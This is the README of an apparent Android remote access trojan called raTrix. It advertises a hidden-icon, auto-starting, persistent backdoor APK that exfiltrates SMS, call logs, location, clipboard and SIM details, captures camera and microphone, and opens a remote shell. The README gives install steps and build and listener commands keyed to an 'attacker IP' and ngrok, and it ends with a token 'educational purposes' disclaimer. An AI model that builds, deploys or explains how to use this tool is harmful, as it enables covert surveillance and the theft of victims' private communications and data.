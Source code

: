 <img src="https://github.com/MrpasswordTz/raTrix/blob/main/images/2.jpg" alt= 'ratrix picture' >

# raTrix 🐀 
raTrix is a powerful Android administration tool designed for Linux systems. It utilizes Python on the client-side and Java on the server-side to provide a robust and efficient management solution.

# FEATURE FOR raTrix
<ul>
  <li>light apk</li>
  <li>shell and build mode</li>
  <li>it run background 24hrs</li>
  <li>it show device info,MAC Adress, device ip, simcard info</li>
  <li>Auto start backdoor</li>
  <li>sms viewing and callLogs viewing</li>
<li>all port-forwading</li>
  <li>microphone checking</li>
  <li>camera checking</li>
  <li>full persistent</li>
  <li>Easy To use</li>
  <li>no icon</li>
</ul>

 # installation on termux
```
pkg update
pkg upgrade
pkg install git
pkg install python python2 python3
pkg install openjdk-17
pkg install aapt
git clone https://github.com/MrpasswordTz/raTrix.git
cd raTrix
pip install -r requirements.txt 
```

# usages building mode
```
python3 raTrix.py --build [models]
modules:
 -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

# Usages SHELL mode
```
Usage:
  python3 raTrix.py --shell [modules]
  modules:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
# Commands in shell mode
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
# Additional information in ngrok conf
```
Usage:
  python3 raTrix.py --build --ngrok [module]
  module:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

# Examples 
<b>in buliding mode(generating apk)</b>
```
python3 raTrix.py -i 192.169.120.34 -p 8080
```

<b>in shell mode (listening)</b>
```
python3 raTrix.py --shell -i 192.169.120.34 -p 8080
```

# Disclaimer
This tool is only for educational purposes, i will not be responsible for any Damage
